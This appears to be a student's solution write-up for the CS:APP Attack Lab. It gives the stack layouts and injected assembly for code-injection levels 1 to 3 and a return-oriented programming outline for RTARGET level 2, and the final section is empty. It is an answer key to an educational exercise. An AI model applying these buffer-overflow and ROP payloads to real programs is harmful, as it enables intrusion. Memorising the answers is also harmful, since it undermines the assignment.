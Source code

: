 # Solution to Attack Lab

## CTARGET Level 1
---
basically just set the return address of Getbuf to the starting address of touch1

stack we want (the first 40 bytes can be anything without 0x0a):

| 00 | 00 | 00 | 00 | 00 | 40 | 17 | c0 |   0x5561dca0

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |       

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 0x5561dc78

Hi <------------------------------------- low

## CTARGET Level 2
---

most important things: 

1. the value of %rsp should still be 0x5561dca8 even if we go to touch2 function.(can't pass the validate function)
2. the byte representation code produced by objdump is in little order.
3. when some part of the stack is deallocated, staffs stored there are not deleted, and we can still access it.

we just set the return address of Getbuf to be the starting address of the buffer located for the string, and at there we set the %rdi value, and push the starting address of touch2 to the stack(stored at 0x5561dca0), and return.

assembly code:
```
movq $0x59b997fa,%rdi
pushq $0x4017ec
ret
```

## CTARGET Level 3
---
most import thing:

1. All the allocated buffer for the get function are all rewritten by hexmatch(cover from 0x5561dc00 to 0x5561dc97) or touch3(0x5561dc98 to 0x5561dca7).
2. string is not like number, in the way that lowest memory address stores most significant bytes of the string.
   
We just store the string above 0xdc5561dca8, which is the address stored in %rsp when we go to touch3. Touch3 and hexmatch will not use memory above the rsp.

assembly code:
```
movq $0x5561dca8,%rdi
movq $0x6166373939623935,%rax
movq %rax,(%rdi)
movb $0x00,0x8(%rdi)
pushq $0x4018fa
ret
```

## RTARGET Level 2
---
most important thing:

1. use part of the code to reach our goal, some number can  become operations.
2. popq is extremely useful, we can input number and have register get the that number using pop.

First we have %rax set to 0x59b997fa using pop, and then movq %rax's value to %rdi, and then go to touch2.

setval_426 and getval_280 contains the code we want.

## RTARGET Level 3
---
